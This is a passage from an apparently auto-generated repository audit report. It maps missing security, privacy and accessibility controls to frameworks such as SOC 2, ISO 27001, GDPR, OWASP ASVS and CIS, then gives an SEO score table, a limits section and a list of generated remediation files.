- **CC6.1** Logical access: authentication & authorization: missing → Uses a proven auth library/framework (not hand-rolled); Object access is checked per user (no IDOR / mass assignment); Passwords use argon2/bcrypt (never MD5/SHA-1/plain); No secrets in the code or git history
- **CC6.6** Boundary protection & hardening: missing → Security headers and CORS are configured; Rate limiting protects login and expensive endpoints
- **CC6.7** Data transmission and encryption: missing → Passwords use argon2/bcrypt (never MD5/SHA-1/plain); No secrets in the code or git history
- **CC7.1** Vulnerability and configuration monitoring: missing → No critical/high security findings; No SQL/command injection or XSS patterns; Dependencies are scanned for known vulnerabilities; CI runs lint, types and tests on every change
- **CC7.2/7.3** Security monitoring, logging and anomaly detection: missing → Structured logging library is used; Error tracking / APM is installed (Sentry, OpenTelemetry…)
- **CC8.1** Change management: missing → Project is under Git with a .gitignore; CI runs lint, types and tests on every change; Pre-commit hooks (format, lint, secret scan)
- **CC9.2** Vendor and business-partner risk: missing → Dependencies are scanned for known vulnerabilities; SBOM generated from lockfiles
- **A1.2/A1.3** Availability: backups, capacity, recovery testing: missing → Database changes use migrations
- **C1.1/C1.2** Confidentiality: classification, retention, disposal: missing → No secrets in the code or git history; Passwords use argon2/bcrypt (never MD5/SHA-1/plain); no secrets written to logs
- **P (Privacy)** Notice, consent, data subject rights: missing → Tracking has user consent (GDPR/ePrivacy)

### ISO/IEC 27001:2022 - gaps to close

- **5.7/8.8** Threat intelligence & management of technical vulnerabilities: missing → No critical/high security findings; Dependencies are scanned for known vulnerabilities; No SQL/command injection or XSS patterns
- **5.9** Inventory of information and other assets: missing → SBOM generated from lockfiles
- **5.15/5.18/8.2** Access control, access rights, privileged access: missing → Uses a proven auth library/framework (not hand-rolled); Object access is checked per user (no IDOR / mass assignment)
- **8.5** Secure authentication: missing → Uses a proven auth library/framework (not hand-rolled); Passwords use argon2/bcrypt (never MD5/SHA-1/plain); Rate limiting protects login and expensive endpoints
- **8.9** Configuration management: missing → Security headers and CORS are configured
- **8.12/8.11** Data leakage prevention & masking: missing → No secrets in the code or git history; no secrets written to logs
- **8.15/8.16** Logging and monitoring: missing → Structured logging library is used; Error tracking / APM is installed (Sentry, OpenTelemetry…)
- **8.24** Use of cryptography: missing → Passwords use argon2/bcrypt (never MD5/SHA-1/plain); No secrets in the code or git history
- **8.25/8.28** Secure development life cycle & secure coding: missing → No SQL/command injection or XSS patterns; Linter + formatter are configured; CI runs lint, types and tests on every change
- **8.29** Security testing in development and acceptance: missing → CI runs lint, types and tests on every change; No critical/high security findings
- **8.31/8.32** Separation of environments & change management: missing → Project is under Git with a .gitignore; CI runs lint, types and tests on every change; Database changes use migrations

### GDPR / ePrivacy - gaps to close

- **Art. 7 / ePrivacy 5(3)** Consent for cookies/tracking before non-essential tags: missing → Tracking has user consent (GDPR/ePrivacy)
- **Art. 25** Data protection by design and by default: missing → Input is validated with a schema library; no secrets written to logs; No secrets in the code or git history
- **Art. 28** Processor agreements: missing → SBOM generated from lockfiles
- **Art. 32** Security of processing: encryption, access control, resilience, testing: missing → Passwords use argon2/bcrypt (never MD5/SHA-1/plain); Object access is checked per user (no IDOR / mass assignment); Structured logging library is used; No critical/high security findings
- **Art. 33/34** Personal-data breach notification (72 h): missing → Error tracking / APM is installed (Sentry, OpenTelemetry…); Structured logging library is used

### NIST CSF 2.0 - gaps to close

- **ID.AM** Asset management (hardware, software, data): missing → SBOM generated from lockfiles
- **ID.RA** Risk assessment and vulnerability identification: missing → No critical/high security findings; Dependencies are scanned for known vulnerabilities
- **PR.AA** Identity management, authentication and access control: missing → Uses a proven auth library/framework (not hand-rolled); Object access is checked per user (no IDOR / mass assignment); Passwords use argon2/bcrypt (never MD5/SHA-1/plain)
- **PR.DS** Data security (at rest, in transit): missing → No secrets in the code or git history; Passwords use argon2/bcrypt (never MD5/SHA-1/plain)
- **PR.PS** Platform security: config, patching, secure SDLC, logging: missing → CI runs lint, types and tests on every change; Linter + formatter are configured; Dependencies are scanned for known vulnerabilities; Structured logging library is used
- **DE.CM** Continuous monitoring: missing → Structured logging library is used; Error tracking / APM is installed (Sentry, OpenTelemetry…)

### WCAG 2.2 AA (VPAT / EN 301 549) - gaps to close

- **1.1.1** Non-text content has text alternatives: missing → no A11Y-IMG-ALT findings
- **2.1.1** Keyboard operable: missing → no A11Y-CLICK-NONINTERACTIVE findings
- **3.1.1** Language of page: missing → no A11Y-HTML-LANG findings
- **Testing** Automated a11y testing in CI + manual screen-reader pass: missing → Accessible markup (alt text, labels, keyboard)

### OWASP ASVS 4.0 (Level 2) - gaps to close

- **V1** Architecture, design and threat modeling: missing → Architecture/decisions are written down
- **V2** Authentication: missing → Uses a proven auth library/framework (not hand-rolled); Passwords use argon2/bcrypt (never MD5/SHA-1/plain); Rate limiting protects login and expensive endpoints
- **V3** Session management: missing → Security headers and CORS are configured; Uses a proven auth library/framework (not hand-rolled)
- **V4** Access control (incl. multi-tenant): missing → Object access is checked per user (no IDOR / mass assignment)
- **V5** Validation, sanitization and encoding: missing → Input is validated with a schema library; No SQL/command injection or XSS patterns
- **V6** Stored cryptography: missing → Passwords use argon2/bcrypt (never MD5/SHA-1/plain); No secrets in the code or git history
- **V7** Error handling and logging: missing → Structured logging library is used; Error tracking / APM is installed (Sentry, OpenTelemetry…); no secrets written to logs
- **V8** Data protection: missing → No secrets in the code or git history; no secrets written to logs
- **V10** Malicious code / supply chain: missing → Dependencies are scanned for known vulnerabilities; SBOM generated from lockfiles; Dependencies are locked (lockfile committed)
- **V12** Files and resources: missing → no path findings; no ssrf findings; no PATH-TRAVERSAL findings
- **V13** API and web service: missing → API is described (OpenAPI/GraphQL schema); Rate limiting protects login and expensive endpoints; Input is validated with a schema library
- **V14** Configuration: missing → Security headers and CORS are configured; Dependencies are locked (lockfile committed)

### CIS Controls v8 (IG1/IG2) - gaps to close

- **1-2** Inventory of assets and software: missing → SBOM generated from lockfiles
- **3** Data protection: missing → No secrets in the code or git history; no secrets written to logs
- **4** Secure configuration: missing → Security headers and CORS are configured
- **5-6** Account and access control management: missing → Uses a proven auth library/framework (not hand-rolled); Object access is checked per user (no IDOR / mass assignment); Passwords use argon2/bcrypt (never MD5/SHA-1/plain)
- **7** Continuous vulnerability management: missing → Dependencies are scanned for known vulnerabilities; No critical/high security findings; CI runs lint, types and tests on every change
- **8** Audit log management: missing → Structured logging library is used; Error tracking / APM is installed (Sentry, OpenTelemetry…)
- **16** Application software security: missing → No SQL/command injection or XSS patterns; Linter + formatter are configured; CI runs lint, types and tests on every change; Input is validated with a schema library

## SEO / SEM

**Score: 93/100**

| Category | Score |
|---|---|
| Technical & crawlability | 86 |
| On-page | 86 |
| Content | 100 |
| Page experience | 93 |
| Structured data & social | 98 |
| SEM / tracking | 96 |

<a id="limites"></a>
## Limits & assumptions

This report covers only what is listed under “Coverage”. No findings does not prove absence of defects: automatic rules are heuristics (regex + nearby variable tracking), not full data-flow analysis. “To review” items depend on context or on facts outside the repository. Verify each fix with its test before deploying.

- repo-fixes.sh was generated (guided repository clean-up; the tool never runs it): `bash repo-fixes.sh list`.
- todo-backlog.md was generated: every TODO/FIXME/HACK with its age, ready for your tracker.
- fix-plan.md was generated: 134 findings in 120 groups and 6 phases (phase 0 comes first).
- cleanup-fixes.sh was generated (remove AI traces with backups and quarantine malware; the tool never runs it): `bash cleanup-fixes.sh list`.
